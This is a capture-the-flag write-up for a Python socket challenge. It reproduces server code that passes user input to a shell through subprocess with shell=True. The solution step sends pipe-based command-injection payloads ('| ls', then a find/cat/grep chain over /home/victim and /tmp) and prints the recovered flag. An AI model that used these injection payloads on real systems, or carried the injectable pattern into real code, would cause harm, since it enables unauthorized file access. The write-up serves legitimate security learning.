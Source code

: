 # Loab's House of Horrors Vol.I
> It sounds like Loab is back and luring students into their trap. Thankfully Anna managed to rip the source code before Loab left the NJIT network. If we can find the flag we might be able to shut this down!

This time, the task is to reverse and exploit a Python script. Connecting to the server leads to a simple conversation, where you have to state your name. Looking at the code, this is the relevant function, that handles that:

```py
def handle_client(conn, addr):
    print("Handling client:", addr)
    shuffle_it()
    conn.send(monologue())
    conn.send(b"Who dares enter my realm: ")
    name = conn.recv(1024)
    if not name:
        print("Client disconnected before talking.")
        conn.close()
        cleanup(None, None)
    name = name.decode().strip()
    try:
        output = subprocess.check_output(
            f"echo {name} ",
            shell=True,
            stderr=subprocess.STDOUT,
        )
        output = twisted(output)
        conn.send(b"\n\tGet comfortable. You will be here forever.\n")
        conn.send(output)
    except subprocess.CalledProcessError as e:
        conn.send(b"\nYou are not worth my time.\n")
        conn.close()
        conn.shutdown(socket.SHUT_RDWR)
        return

    converse(conn)
    print("Connection closed with client:", addr)
    cleanup(None, None)
```

What's striking at first is the subprocess routine that calls `echo {name}`. Let's dig deeper.

```py
def shuffle_it():
    location = random.randint(0, 8)
    locswild = location + 1
    # You remember frankie muniz from Deuces Wild?
    locswild = rb.b64encode(locswild)
    # What a movie that was.
    where = locations[str(location)]
    # I'm not sure if I'm supposed to be moving the flag or the goalposts
    possible_locations = ["/home/victim/flag.txt"] + list(locations.values())
    flag_found = False

    for loc in possible_locations:
        if os.path.exists(loc):
            try:
                # Run things in the background because we actually have a lot of stuff to do
                subprocess.run(["mv", loc, where], check=True)
                flag_found = True
                break
            except Exception as e:
                # Obviously we need to gracefully handle things
                print(f"Failed to move flag from {loc} to {where}: {e}")
        else:
            # This won't get called. I'm sure of it. I worked hard.
            print(f"Flag not found at {loc}")
    if not flag_found:
        print("Flag not found in any location")
    return flag_found
```

The `shuffle_it` function copies the flag from `/home/victim/flag.txt` to one of the locations specified in the `locations` dict. This actually took me some time to figure out, because I thought those locations were directories and an example final location would look like this: `/tmp/orphans/flag.txt`. Turned out that in this case the `orphans` would hold the flag.

```py
def twisted(content):
    a = rb.b64encode(content)
    b = rb.b64encode(content)
    x = rb.b64encode(b)
    c = rb.b64encode(b)
    c = rb.b64encode(content)
    e = rb.b64encode(content)
    d = rb.b64encode(content)
    return b
```

The `twisted` function takes a value returned by the subprocess routine and prints it in base64. 

Last interesting function is `converse`:

```py
def converse(conn):
    try:
        taunt_number = random.randint(0, 15)
        conn.send(b"\n\t")
        conn.send(taunt[str(taunt_number)].encode())
        conn.send(b"\n\tIs that it? Pitiful.")
        response = conn.recv(1024)
        if not response:
            print("Client disconnected during converse.")
            return
        response = response.decode().strip()
        if any(char in response for char in [";", "&", "|", "`", "$", ">", "<"]):
            with open("/tmp/injection_detected", "w") as f:
                f.write("1")
            conn.send(b"\nYou have triggered my trap! The end is near...\n")

        try:
            output = subprocess.check_output(
                f"echo Pitiful. {response}",
                shell=True,
                stderr=subprocess.STDOUT,
            )
            output = twisted(output)
            conn.send(output)
        except subprocess.CalledProcessError as e:
            conn.send(b"\n\tYou are not worth my time.\n")
            conn.send(b"\n\tConnection will be terminated.\n")
            conn.close()
            return

        conn.send(b"\n\tGoodbye.\n")
        conn.close()
        return

    except Exception as e:
        print(f"Error during converse: {e}")
    finally:
        conn.close()
        print("Connection closed during conversation.")
```

It does almost the same thing as `handle_client`, but additionally checks for special character in the user's reponse and writes `1` into `/tmp/injection_detected`.


Now we are ready to try some stuff out. I started with `| ls` as input:

```
d2F0Y2hkb2cucHkKd2VsY29tZS5weQo=
```

This returns all files on current server directory in base64, which means we have an RCE. The final exploit is as simple as printing all files from `/tmp` and `/home/victim` and grepping for a flag:

```sh
| find /home/victim /tmp -type f -exec cat {} \; | grep "NICC{"
```

This results in `TklDQ3tKdTV0X3B1N19sMEBiXzFuX3JjM19vcl9oMzExX2lfZ3Uzc3N9`, which can be translated into a flag.

`NICC{Ju5t_pu7_l0@b_1n_rc3_or_h311_i_gu3ss}`